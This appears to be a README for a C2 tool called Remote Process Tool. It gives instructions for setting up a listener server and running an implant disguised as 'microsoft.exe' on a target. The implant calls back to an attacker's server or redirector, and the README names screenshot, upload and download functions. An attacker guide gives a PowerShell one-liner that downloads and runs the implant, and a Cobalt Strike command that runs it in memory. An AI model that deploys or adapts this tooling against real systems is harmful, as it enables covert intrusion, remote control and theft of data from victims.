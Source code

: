 # Remote Process Tool
	Remote Process Tool is a C# .Net Core Server and .Net Framework Client
	The tool can be staged to be run in targets memory
	The tool can also be executed through a Cobalt Strike beacon

# C2 Server Setup
# Linux Server Guide

	- Linux server ELF is found in Server/linux-x64/publish/DLServer

	- Inside the ELF folder create 3 directories called "screenshots", "uploads", "downloads"

	- chmod DLServer and run it by calling ./DLServer [port]

	- This will start a TcpListener on port "port" *If port is left blank the default port is set to 8080*


# Windows Server Guide

	- Windows server EXE is found in Server\win-x64\publish\DLServer.exe

	- Inside the EXE folder create 3 directories called "screenshots", "uploads", "downloads"

	- This can be run by calling .\DLServer.exe [port]

	- This will start a TcpListener on port "port" *If port is left blank the default port is set to 8080*


# Target Execution Guide

	- The target EXE is found in the "WinBinary" directory labelled as "microsoft.exe"

	- If you are using a redirector run the command ".\microsoft.exe [redirector_ip] [redirector_port]"

	- If you are doing a straight callback to your server run the command ".\microsoft.exe [your_ip] [your_port]" *Note this is not recommended*


# Attacker Execution Guide (No Cobalt)

	- Setup your redirector to listen and forward to your DLServer

	- Host the windows executable on a HTTP server

	- Run the following command on the client to download and execute:
		"Invoke-WebRequest "hosted_exe" -OutFile microsoft.exe;.\microsoft.exe [server/redirector ip] [server/redirector port]" or do whatever you want

# Cobalt Beacon Guide

	- Once you have a beacon you may execute the following Cobalt command to run the executable in memory:
		"execute-assembly [location_to_exe] [server/redirector ip] [server/redirector port]" 	
